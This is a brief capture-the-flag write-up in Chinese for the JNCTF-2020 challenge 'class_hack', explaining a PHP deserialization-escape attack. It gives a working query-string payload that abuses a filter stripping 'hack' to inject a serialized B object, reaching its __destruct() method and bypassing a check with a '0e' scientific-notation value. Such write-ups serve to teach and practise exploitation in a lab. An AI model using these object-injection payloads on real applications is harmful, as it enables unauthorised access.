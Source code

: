 # JNCTF-2020 : class_hack

### 考察点：

​	反序列化逃逸

### Payload:

​	?a=HackHackHackHack&b=";s:1:"b";O:1:"B":2:{s:3:"key";s:5:"admin";s:4:"xnum";s:8:"0e123456";}}

### 思路：

​	利用filter函数将hack字符串过滤掉的功能进行序列化字符串的逃逸，构造出B类型的序列化字符串，能够进入B类的__destruct()方法，利用科学记数法绕过if中的判断条件。

